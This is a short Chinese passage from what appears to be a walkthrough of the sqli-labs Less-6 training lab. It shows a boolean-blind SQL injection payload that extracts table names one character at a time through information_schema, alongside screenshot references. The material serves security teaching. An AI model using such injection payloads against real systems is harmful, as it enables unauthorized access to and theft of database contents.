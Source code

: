 ![Less-6_7](./img/Less-6_7.PNG)

返回正确页面，说明联合数据表名长度大于5；同样可调整参数确定联合数据表名长度



+ 逐一爆破联合数据表名

~~~ shell
?id=1"and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>50--+
~~~

![Less-6_8](./img/Less-6_8.PNG)
